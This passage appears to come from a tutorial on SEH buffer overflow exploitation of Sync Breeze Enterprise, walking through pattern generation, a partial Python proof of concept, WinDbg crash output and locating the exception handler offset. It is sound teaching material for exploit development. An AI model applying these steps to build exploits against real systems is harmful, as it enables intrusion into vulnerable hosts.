 By doing so, we are able to see if we can overwrite the exact offset of exception handler.

### 4. Gaining Control of Exception Handler.<a name="GCEH"></a>

As we do not control the stack in our scenario, we can't redirect the execution flow to it using an instruction like "JMP ESP" as we do in a vanilla stack overflow.

Generate a unique string to locate the exact offset of the exception handler.

```bash
┌──(v0lk3n㉿Laptop)-[~/SEH-Overflow-Basic]
└─$ msf-pattern_create -l 1000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac...
```

Update your PoC

```python
...
size = 1000

inputBuffer = b"<UniqueString>"
...
```

Run it and inspect the exception handler chain at the time of the crash.

```bash
0:009> g
(1178.1eac): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libpal.dll
eax=63413163 ebx=019dfa0c ecx=019dff08 edx=019df9c4 esi=019dff08 edi=019dfb10
eip=00912a9d esp=019df998 ebp=019dfeb8 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
00912a9d ff5024          call    dword ptr [eax+24h]  ds:0023:63413187=????????

0:011> !exchain
019dfe0c: libpal!md5_starts+149fb (0098df5b)
019dff44: 33654132
Invalid exception stack at 65413165

```

Search for the exact offset.

```bash
┌──(v0lk3n㉿Laptop)-[~/SEH-Overflow-Basic]
└─$ msf-pattern_offset -q 33654132 -l 1000
[*] Exact match at offset 128
```

Now as for vanilla stack overflow, update the buffer of your PoC to send four B at this exact offset.
